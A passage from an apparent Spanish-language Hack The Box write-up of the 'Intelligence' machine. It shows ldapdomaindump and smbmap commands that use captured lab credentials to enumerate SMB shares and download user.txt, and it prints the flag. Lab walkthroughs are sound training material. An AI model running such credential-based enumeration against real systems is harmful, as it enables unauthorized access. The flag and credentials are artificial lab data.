 
```bash
ldapdomaindump -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -n 10.10.10.248 10.10.10.248
```


Podemos probar ahora que tenemos credenciales smbclient o smbmap.


![list](/assets/img/intelligence/Kali-2022-09-10-02-07-22.png){:.lead width="800" height="100" loading="lazy"}


```bash
smbmap -H 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876'
```

{:.note}
Tenemos acceso a algunos shares pero vamosa husmear en Users para buscar la flag de user.txt bingoo la encontramos.


La descargamos con el siguiente comado.


```bash
smbmap -H 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --download Users/Tiffany.Molina/Desktop/user.txt
```


{:.note}
La flag de user.txt es `020cafd6230d6904434ff4f987e0f715`, tambien vemos otro archivo interesante que nos podemos decargar para analizarlo.


![list](/assets/img/intelligence/Kali-2022-09-10-02-11-56.png){:.lead width="800" height="100" loading="lazy"}
